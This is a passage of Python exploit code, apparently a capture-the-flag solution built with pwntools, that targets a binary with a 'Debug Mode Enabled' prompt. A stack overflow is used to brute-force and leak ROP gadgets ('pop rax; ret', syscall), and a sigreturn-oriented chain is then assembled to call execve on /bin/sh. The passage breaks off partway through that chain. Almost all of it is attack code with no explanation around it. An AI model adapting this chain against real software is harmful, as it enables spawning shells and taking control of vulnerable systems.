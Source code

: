```python
    else:
        return regs


def find_pop_rax():

    pop_rax = 0x0
    syscall_ret = 0x0
    pop_rbp_ret = 0x0

    ''' loop from first gadget to debug mode '''
    for gadget in range(gadgets_start, debug_mode):
        try:
            p = start()
            pad = cyclic(16)

            ''' chain to display gadgets
       align stack, call gadget, test val, call debug '''

            chain = p64(0x401016)
            chain += p64(gadget)
            chain += p64(0x1337)
            chain += p64(0x401446)

            ''' parse out program output '''
            p.recvuntil(b'Debug Mode Enabled')
            p.recvline()
            p.recvline()
            p.recvline()
            p.recvline()

            ''' send gadget test and receive outpt'''
            p.sendline(pad+chain)
            p.recvline()
            gadget_result = gadget_finder(p.recvline())
            info("Gadget [%s]: %s" % (hex(gadget), gadget_result))
           
            if 'pop rax; ret' in gadget_result:
                pop_rax = gadget

            if 'pop' in gadget_result:
                pop_rbp_ret = 0
            else:
                pop_rbp_ret+=1
            if (pop_rbp_ret==3):
                syscall_ret = gadget - 0x3
        except:

            pass
    return pop_rax, syscall_ret



def srop_exec(pop_rax, bin_sh, syscall_ret):

    chain = p64(pop_rax)
    chain += p64(0xf)
    chain += p64(syscall_ret)

    frame = SigreturnFrame(arch="amd64", kernel="amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = bin_sh
    frame.rip = syscall_ret
```